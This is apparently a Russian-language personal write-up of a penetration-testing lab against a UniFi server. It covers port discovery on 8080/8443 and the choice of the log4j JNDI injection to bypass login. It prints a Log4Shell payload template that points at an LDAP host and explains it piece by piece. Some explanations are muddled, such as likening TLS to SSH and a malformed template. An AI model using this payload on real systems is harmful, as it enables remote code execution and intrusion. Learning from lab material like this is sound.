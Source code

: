 **Порт 8080** - это по идеи должен быть веб сервер, но он возвращаает нам 404 с перенаправлением в заголовке (302)

Сервис на порту _8080_ перенаправляет нас на _8443_, который является ещё одним доступным портом:
![[Pasted image 20221206005101.png]]

Однако, напрямую по адресу с портом 8443 мы перейти не можем:
![[Pasted image 20221206183503.png]]
Сообщение получено от развёрнутого сервера, т.к. выглядит оно не как обычный bad request и имеет собственное кастомное сообщение.
Он хочет от нас **tls**, это некий аналог ssh.
**tls** является криптографическим протоколом, как и shh, обеспечивающие защищённую передачу данных между узлами в сети Интернет.

На самом деле нам просто нужно добавить букву s к http:
![[Pasted image 20221206183924.png]]
 Так происходит, потому что данные в протоколе HTTPS передаются поверх криптографических протоколов TLS или SSL.

По номеру версии Unifi мы можем попробовать поискать какой-нибудь эксплойт.

На самом деле если поискать в интернете, то мы видим некий log4j, так что наверное он нам и поможет обойти авторизацию:
![[Pasted image 20221206184422.png]]
log4j - пакет ведения журнала в Java, который позволяет использовать определённый язык выражений для выполнения кода (что-то вроде: `${jndi:ldap//IPaddress/garbageResourse}`).
Сама уязвимость я так понимаю называется **JNDI инъекция** и использует протокол **ldap** для этой иъекции.
> P.S.: 
> В примере введено выражение на языке выражений. Он позволяет выполнять встроенные команды. По сути мы написали шаблон полезной нагрузки.
> 
> Выражения пишутся со знаком доллара перед фигурными скобками, в которых и лежит наше выражение. По факту Java читает содержимое скобок как код, который нужно выполнить.
>
> - **jndi** _(Java Naming and Directory Interface)_ — это набор Java API, организованный в виде службы каталогов, который позволяет Java-клиентам открывать и просматривать данные и объекты по их именам.
> По простому jndi - интерфейс именования каталогов и по сути является API, позволяющим выполнять вызовы для поиска других ресурсов/объектов.
>
>В нашем случае jndi выступает обёрткой. Мы просто сообщаем протоколу как обрабатывать данные, которые он отправляет.
>
> - **Протокол LDAP** _(Lightweight Directory Access Protocol)_ — это интернет-стандарт для доступа к службам каталогов. Работает на порту _389_.
> 
> ldap связан с активным каталогом. ldap будет выступать в роли штуки, которая обеспечивает поиск данных в сети (мы ищем учётные данные аутентификации)
>
> - **IPaddress** — адрес, на котором осуществляется аутентификация.
>
> - **garbageResourse** — какой ресурс запрашивает ldap.
